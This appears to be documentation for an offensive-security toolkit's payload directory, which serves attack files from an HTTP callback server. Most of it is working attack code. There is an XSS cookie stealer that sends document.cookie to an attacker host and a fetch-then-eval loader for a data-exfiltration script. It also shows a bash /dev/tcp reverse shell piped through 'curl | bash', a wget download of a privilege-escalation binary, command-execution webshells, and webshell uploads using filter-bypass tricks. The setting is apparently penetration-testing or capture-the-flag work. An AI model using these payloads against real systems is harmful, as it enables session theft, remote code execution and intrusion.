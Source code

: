 Payloads
========

The ``payloads/`` directory stores files that will be served by the HTTP callback server. All files are automatically accessible via HTTP.

Directory Structure
-------------------

.. code-block:: text

   payloads/
   ├── xss/           # XSS payloads and JavaScript
   ├── shells/        # Reverse shells and webshells
   ├── exploits/      # Compiled exploits or binaries
   └── files/         # Miscellaneous files

Access via HTTP Server
----------------------

When you start the server with ``uv run your_project --server``, files in the ``payloads/`` directory are accessible at:

- ``http://[your-ip]:8000/payloads/[filename]``
- ``http://[your-ip]:8000/static/[filename]`` (alias)

Examples
~~~~~~~~

**Place files:**

.. code-block:: text

   payloads/xss/steal-cookie.js
   payloads/shells/reverse.py
   payloads/exploits/privesc.bin

**Access them:**

.. code-block:: text

   http://10.10.14.5:8000/payloads/xss/steal-cookie.js
   http://10.10.14.5:8000/payloads/shells/reverse.py
   http://10.10.14.5:8000/payloads/exploits/privesc.bin

Included Payloads
-----------------

XSS Payloads
~~~~~~~~~~~~

Located in ``payloads/xss/``:

**examples.txt**
  Ready-to-use XSS payloads for copy-paste

**steal-cookie.js**
  JavaScript cookie stealer that sends cookies to your callback server

**steal-all.js**
  Comprehensive data exfiltration (cookies, localStorage, session data, DOM content)

Example XSS payload:

.. code-block:: html

   <img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">

Or load external script:

.. code-block:: html

   <script src="http://your-ip:8000/payloads/xss/steal-cookie.js"></script>

Webshells
~~~~~~~~~

Located in ``payloads/shells/``:

**cmd.php**
  PHP command execution shell

**cmd.jsp**
  Java/JSP command execution shell

**cmd.aspx**
  .NET/IIS command execution shell

All webshells use the same simple interface:

.. code-block:: python

   import requests

   # Execute command via webshell
   resp = requests.get("http://target/cmd.jsp?cmd=whoami")
   print(resp.text)  # Output: nt authority\system

   # Works identically across platforms
   requests.get("http://target/cmd.php?cmd=id")
   requests.get("http://target/cmd.aspx?cmd=whoami")

Common Use Cases
----------------

Serving Exploit Binaries
~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: bash

   # 1. Place your compiled exploit
   cp privesc.elf payloads/exploits/

   # 2. Start server
   uv run your_project --server --lhost 10.10.14.5

   # 3. Download on target
   wget http://10.10.14.5:8000/payloads/exploits/privesc.elf
   chmod +x privesc.elf

Hosting Reverse Shell Scripts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: bash

   # 1. Generate shell payload
   echo 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1' > payloads/shells/rev.sh

   # 2. Start server
   uv run your_project --server --lhost 10.10.14.5

   # 3. Execute on target
   curl http://10.10.14.5:8000/payloads/shells/rev.sh | bash

Or use the built-in shell generators:

.. code-block:: python

   from your_project.utils.reverse_shells import bash_shell

   # Generates shell script in payloads/shells/
   path = bash_shell("10.10.14.5", 4444)
   print(f"Shell available at: http://10.10.14.5:8000/{path}")

XSS Data Exfiltration
~~~~~~~~~~~~~~~~~~~~~

.. code-block:: javascript

   // In your XSS payload
   fetch('http://attacker:8000/payloads/xss/steal-all.js')
     .then(r => r.text())
     .then(eval);

The server will:

1. Serve the JavaScript file
2. Log when it's loaded
3. Receive and log the exfiltrated data
4. Store everything in ``logs/server.ndjson``

File Upload Payloads
~~~~~~~~~~~~~~~~~~~~

Place uploaded webshells in payloads for easy management:

.. code-block:: python

   from your_project.utils.file_upload import FileUploader

   # Upload a shell
   uploader = FileUploader(f"{target}/upload")
   shell_path = "payloads/shells/cmd.php"

   with open(shell_path, 'rb') as f:
       result = uploader.upload_with_bypass(
           "shell.php",
           f.read(),
           techniques=["double_extension", "null_byte"]
       )

   if result['success']:
       # Access the uploaded shell
       requests.get(f"{target}/uploads/shell.php?cmd=whoami")

